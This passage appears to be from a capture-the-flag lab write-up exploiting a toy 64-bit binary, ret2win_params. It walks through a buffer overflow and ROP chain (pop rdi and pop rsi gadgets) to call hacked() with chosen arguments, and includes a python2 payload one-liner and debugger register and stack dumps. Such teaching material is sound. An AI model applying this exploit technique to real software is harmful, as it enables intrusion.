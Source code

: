 Here we need to pass two params to `hacked()` so we need to push them onto the stack before calling it right.
When we fill the buffer and overflow the stack, we fill data from low adresses (the lower address being the start of the buffer) to high.er addresses.

Let's say we wanna call a function with a specific value: we first fill in the necessary padding so we can overflow, then we fill in the value of the parameter we want to use with the function, and then the address of the function we wanna call with this parameter.
When th e program will execute, RIP will "move" first through the buffer, then into the parameter and then into the address of the function.

So here, we need to fill in data into the program in this order: 
1. the padding full of A's
2. the `pop rdi; ret;` gadget and add extra zeroes to fill the whole 64 bits
3. the value to pop in RDI
4. the `pop rsi; pop r15; ret` gadget (`pop rsi; ret;` alone didnt exist)
5. the value to pop in RSI and right after the value to pop in r15
6. the address of `hacked()`

We can do it full-manually like this:
```bash
$ python2 -c 'print "A" * 24 + "\x4b\x12\x40\x00\x00\x00\x00\x00" + "\xef\xbe\xad\xde\xef\xbe\xad\xde" + "\x49\x12\x40\x00\x00\x00\x00\x00" + "\xbe\xba\xde\xc0\xbe\xba\xde\xc0" + "\x00\x00\x00\x00\x00\x00\x00\x00" + "\x42\x11\x40\x00\x00\x00\x00\x00"' > payload
$ ./ret2win_params < payload
Name:
Hi there, AAAAAAAAAAAAAAAAAAAAAAAAK@
This function is TOP SECRET! How did you get in here?! :O
[1]    29573 segmentation fault  ./ret2win_params < payload
$
```

When exiting `register_name()` we have a stack that looks like this:

```bash
────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x26              
$rbx   : 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffdb48  →  0x000000000040124b  →  <__libc_csu_init+005b> pop rdi
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00000000004052a0  →  0x6572656874206948 ("Hi there"?)
$rdi   : 0x00007fffffffd950  →  0x00007fffffffd980  →  0x6572656874206948 ("Hi there"?)
$rip   : 0x00000000004011d6  →  <register_name+0046> ret 
$r8    : 0x73              
$r9    : 0x1               
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdc78  →  0x00007fffffffe064  →  "COLORFGBG=15;0"
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdb48│+0x0000: 0x000000000040124b  →  <__libc_csu_init+005b> pop rdi        ← $rsp
0x00007fffffffdb50│+0x0008: 0xdeadbeefdeadbeef
0x00007fffffffdb58│+0x0010: 0x0000000000401249  →  <__libc_csu_init+0059> pop rsi
0x00007fffffffdb60│+0x0018: 0xc0debabec0debabe
0x00007fffffffdb68│+0x0020: 0x0000000000000000
0x00007fffffffdb70│+0x0028: 0x0000000000401142  →  <hacked+0000> push rbp
0x00007fffffffdb78│+0x0030: 0x00007fffffffdc00  →  0x00000000004011d7  →  <main+0000> push rbp
0x00007fffffffdb80│+0x0038: 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
──────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x4011cf <register_name+003f> call   0x401040 <printf@plt>
     0x4011d4 <register_name+0044> nop    
     0x4011d5 <register_name+0045> leave  
●→   0x4011d6 <register_name+0046> ret    
   ↳    0x40124b <__libc_csu_init+005b> pop    rdi
        0x40124c <__libc_csu_init+005c> ret    
        0x40124d                  nop    DWORD PTR [rax]
        0x401250 <__libc_csu_fini+0000> ret    
        0x401251                  add    BYTE PTR [rax], al
        0x401253                  add    BYTE PTR [rax-0x7d], cl
──────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2win_params", stopped 0x4011d6 in register_name (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x4011d6 → register_name()
[#1] 0x40124b → __libc_csu_init()
[#2] 0x401249 → __libc_csu_init()
[#3] 0x401142 → frame_dummy()
[#4] 0x7fffffffdc00 → xlat BYTE PTR ds:[rbx]
[#5] 0x7fffffffdc68 → int1 
```
And then calling `hacked()` our stack looks like this:
```bash
────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x26              
$rbx   : 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffdb70  →  0x0000000000401142  →  <hacked+0000> push rbp
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0xc0debabec0debabe
$rdi   : 0xdeadbeefdeadbeef
$rip   : 0x000000000040124c  →  <__libc_csu_init+005c> ret 
$r8    : 0x73              
$r9    : 0x1               
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x00007fffffffdc78  →  0x00007fffffffe064  →  "COLORFGBG=15;0"
$r14   : 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000000000000000
$r15   : 0x0               
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdb70│+0x0000: 0x0000000000401142  →  <hacked+0000> push rbp        ← $rsp
0x00007fffffffdb78│+0x0008: 0x00007fffffffdc00  →  0x00000000004011d7  →  <main+0000> push rbp
0x00007fffffffdb80│+0x0010: 0x00007fffffffdc68  →  0x00007fffffffdff1  →  "/home/kali/secu_classes_ctf/classes/cryptocat_bina[...]"
0x00007fffffffdb88│+0x0018: 0x75eab2ba6757f462
0x00007fffffffdb90│+0x0020: 0x0000000000000000
0x00007fffffffdb98│+0x0028: 0x00007fffffffdc78  →  0x00007fffffffe064  →  "COLORFGBG=15;0"
0x00007fffffffdba0│+0x0030: 0x00007ffff7ffd000  →  0x00007ffff7ffe2e0  →  0x0000000000000000
0x00007fffffffdba8│+0x0038: 0x0000000000000000
──────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401246 <__libc_csu_init+0056> pop    r13
     0x401248 <__libc_csu_init+0058> pop    r14
     0x40124a <__libc_csu_init+005a> pop    r15
 →   0x40124c <__libc_csu_init+005c> ret    
   ↳    0x401142 <hacked+0000>    push   rbp
        0x401143 <hacked+0001>    mov    rbp, rsp
        0x401146 <hacked+0004>    sub    rsp, 0x10
        0x40114a <hacked+0008>    mov    QWORD PTR [rbp-0x8], rdi
        0x40114e <hacked+000c>    mov    QWORD PTR [rbp-0x10], rsi
        0x401152 <hacked+0010>    movabs rax, 0xdeadbeefdeadbeef
──────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "ret2win_params", stopped 0x40124c in __libc_csu_init (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40124c → __libc_csu_init()
[#1] 0x401142 → frame_dummy()
[#2] 0x7fffffffdc00 → xlat BYTE PTR ds:[rbx]
[#3] 0x7fffffffdc68 → int1 
```

The arguments are in RDI and RSI, we now know we can call `hacked()`
